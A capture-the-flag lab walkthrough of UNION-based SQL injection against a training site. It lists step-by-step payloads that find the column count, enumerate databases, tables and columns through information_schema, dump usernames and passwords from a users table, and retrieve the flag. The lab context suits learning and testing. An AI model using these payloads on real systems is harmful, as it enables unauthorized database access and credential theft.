

# UNION Based SQL Injection Walkthrough

## Target URL

**acuhungf.eu1.ctfio.com**

---

## Task 1: Retrieve Article ID 2 by Manipulating the Query

### Attempt 1:

Query used:

```sql
1' and 1=1;--
```

Result: Did not produce the desired output.

### Attempt 2:

Query used:

```sql
1' UNION SELECT 1,2,3,4;--
```

Result: Displayed content but not the expected output.

### Successful Attempt:

Query used:

```sql
1' UNION SELECT 1,2,3,DATABASE();--
```

Result: Successfully retrieved the current database name.

### Alternative Method:

Query used:

```sql
0' OR id = '2
```

Result: Displayed the desired article ID 2.



---

## Task 2: Determine the Number of Columns

Query used:

```sql
0' UNION SELECT 1,2,3,4;--
```

Result: Identified the correct number of columns.


---

## Task 3: Retrieve Characters

Query used:

```sql
0' UNION SELECT 1,2,3,'hello';--
```

Result: Verified that character data can be retrieved.


---

## Task 4: Retrieve Current Database Name

Query used:

```sql
0' UNION SELECT 1,2,3,DATABASE();--
```

Result: Successfully retrieved the database name.


---

## Task 5: Extract Database Names

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.SCHEMATA;--
```

Result: Extracted all database names.


---

## Task 6: Extract Table Names

Query used:

```sql
0' UNION SELECT 1,2,3,TABLE_NAME FROM information_schema.TABLES;--
```

Result: Retrieved table names but not the expected output.


### Improved Query:

```sql
0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA='sqli_two');--
```

Result: Successfully listed all tables in the `sqli_two` database.


---

## Task 7: Extract Column Names from 'users' Table

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS;--
```

Result: Retrieved all column names but not the expected output.


### Improved Query:

```sql
0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_two' AND TABLE_NAME='users');--
```

Result: Successfully retrieved column names for the `users` table.


---

## Task 8: Extract User Credentials

Query used:

```sql
0' UNION SELECT 1,2,username,password FROM users;--
```

Result: Successfully retrieved usernames and passwords.


---

## Task 9: Extract All Users in One Query

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(CONCAT(username,':',password)) FROM users;--
```

Result: Successfully retrieved all usernames and passwords in a single row.


---

## Final Task: Retrieve the Flag

Query used:

```sql
0' UNION SELECT 1,2,3,flag FROM flag;--
```

Result: Successfully extracted the flag.


---

## Summary

This walkthrough demonstrates how to exploit UNION-based SQL Injection step by step, starting from retrieving the number of columns to extracting critical data such as database names, table names, column names, and user credentials. The final task was to extract the flag, successfully completing the lab challenge.

---
